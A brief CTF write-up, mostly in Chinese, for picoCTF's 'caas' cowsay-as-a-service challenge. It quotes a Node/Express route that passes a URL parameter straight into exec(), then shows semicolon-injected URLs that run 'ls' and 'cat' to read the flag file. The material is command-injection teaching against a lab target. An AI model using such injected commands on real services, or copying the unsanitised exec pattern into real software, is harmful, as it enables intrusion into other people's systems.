 # caas 15
>Now presenting cowsay as a service https://caas.mars.picoctf.net/

## Explore
附件里有：
```JavaScript
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});
```
会拼接执行我们给的参数，应该是注入。
## Exploitation
分号;分割命令，访问 https://caas.mars.picoctf.net/cowsay/123;ls  
打出了falg.txt  
访问 https://caas.mars.picoctf.net/cowsay/123;cat%20falg.txt
得到flag